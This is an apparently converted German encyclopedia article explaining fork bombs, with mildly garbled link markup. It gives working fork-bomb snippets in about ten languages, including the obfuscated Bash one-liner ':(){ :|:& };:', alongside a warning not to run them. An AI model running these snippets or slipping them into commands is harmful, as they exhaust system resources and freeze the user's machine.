

# Fork Bomb



Eine **Forkbomb** (englisch ''Fork bomb''), auch **Rabbit** genannt, ist ein [dessen einziger Zweck es ist, rekursiv Kopien seiner selbst zu starten, alle verfügbaren Systemressourcen zu verbrauchen und so das System zu blockieren. Unter Unix geschieht das im einfachsten Fall mit dem Aufruf des Fork in einer Endlosschleife sieht eine Forkbomb etwa so aus:

```
 ProgrammX {
   Rufe ProgrammX auf;
   Rufe ProgrammX auf;
   Warte bis ProgrammX beendet wurde;
 }
```

Das Programm ruft zwei Kopien seiner selbst auf und wartet, bis sie wieder beendet wurden. Dieser Zustand wird jedoch niemals erreicht werden, da die Kopien genauso verfahren. Aus einem Programmaufruf werden somit zunächst 2, dann 4, dann 8 und nach nur 10 solcher Zyklen sind bereits über tausend Kopien gestartet und aktiv. Allgemein lässt sich festhalten, dass nach n Zyklen 2<sup>n</sup> Prozesse erzeugt worden sind, ihre Anzahl also exponentiell. Diese verbrauchen, selbst wenn sie keinen komplizierten Code enthalten, [und Speicher zur Verwaltung durch das Betriebssystem. Ein normaler Betrieb beziehungsweise normales Arbeiten ist bereits wenige Sekunden nach Aufruf der Forkbomb nicht mehr möglich.

Der konkrete Effekt einer Forkbomb hängt in erster Linie von der Konfiguration des Betriebssystems ab. Beispielsweise erlaubt PAM auf Unix-ähnlichen Betriebssystemen die Zahl der Prozesse und den maximal zu verbrauchenden Speicher pro Benutzer zu beschränken. „Explodiert“ eine Forkbomb auf einem System, welches diese Möglichkeiten der Beschränkung nutzt, scheitert irgendwann der Versuch, neue Kopien der Forkbomb zu starten und das Wachstum ist eingedämmt.

# Beispiele für Forkbombs 
Um die Stabilität des Systems nicht zu gefährden, wird empfohlen, die nachstehend genannten Beispiele '''nicht''' auszuführen.

## Microsoft-Windows-Batch-Datei 
```
 @echo off
 :start
 start "Forkbomb" /high %0
 goto start
```

## Programmiersprache C 
Beispiel für C unter Unix:
```
#include <unistd.h>
int main(void){
    for(;;)
        fork();
    return 0;
}
```

Beispiel für C unter Windows 
```
#include <windows.h>
int main(int argc, char     *argv) {
  STARTUPINFO si;
  PROCESS_INFORMATION pi;
  ZeroMemory(&si, sizeof(si));
  si.cb = sizeof(si);
  while (1) {
	  SetConsoleCtrlHandler(0, 1);
	  CreateProcess(*argv, 0, 0, 0, 0, CREATE_NEW_CONSOLE, 0, 0, &si, &pi);
  }
  return 0;
}
```

## Java 
Beispiel für Java:
```
public class ForkBomb implements Runnable {
  public static void main(String[args) {
    new ForkBomb().run();
  }

  public void run() {
    new Thread(this).start();
    this.run();
  }
}
```

## Perl 
Beispiel für Perl als Kommandozeilenaufruf:
```
perl -e "fork while fork"
```

## PHP 
```
<?php
while(true) pcntl_fork();
?>
```

## Ruby 
Beispiel für Ruby:
```
loop { fork }
```

## Python 
Beispiel für [Python als Programm:
```
import os
 
while True:
     os.fork()
```

oder als Kommandozeilenaufruf:
```
python -c 'while 1: __import__("os").fork()' 
```

## Bash 
Beispiel für Bourne-Again-Shell in Normalform:
```
function f() {
    f | f&
}
f
```

Um die Eigenschaft als Forkbomb zu verschleiern, wird obiger Code häufig in folgender Kurzform gegeben:

```
:(){ :|:& };:
```

Erklärung:
```
:()      # Definition der Funktion ":" -- immer wenn ":" aufgerufen wird, tue das folgende:
{        # 
    :    # eine neue Kopie von ":" laden
    |    # … und seine Standardausgabe umleiten auf …
    :    # … eine weitere Kopie von ":" (die auch in den Speicher geladen werden muss)
         # (":|:" erzeugt also einfach 2 Kopien von ":", immer wenn es aufgerufen wird)
    &    # die Befehlszeile unabhängig vom aufrufenden Prozess machen (im Hintergrund ausführen)
}        # 
;        # Durch ";" wird die Definition von ":" beendet
:        # …und durch den Aufruf von ":" die Kettenreaktion in Gang gesetzt.
```

# Literatur 
* [S. Raymond]([Eric)]: ''The New hacker's dictionary.'' With foreword and cartoons by [L. Steele Jr.]([Guy)] 3rd edition. MIT Press, Cambridge MA u. a. 1996, ISBN 0-262-68092-0, [Online](http://www.catb.org/jargon/html/F/fork-bomb.html).
* {{Literatur  | Autor = Cyrus Peikari, Anton Chuvakin | Titel = Security warrior | Jahr = 2004 | Verlag = O'Reilly | Ort = Beijing u. a. | ISBN = 0-596-00545-8 }}
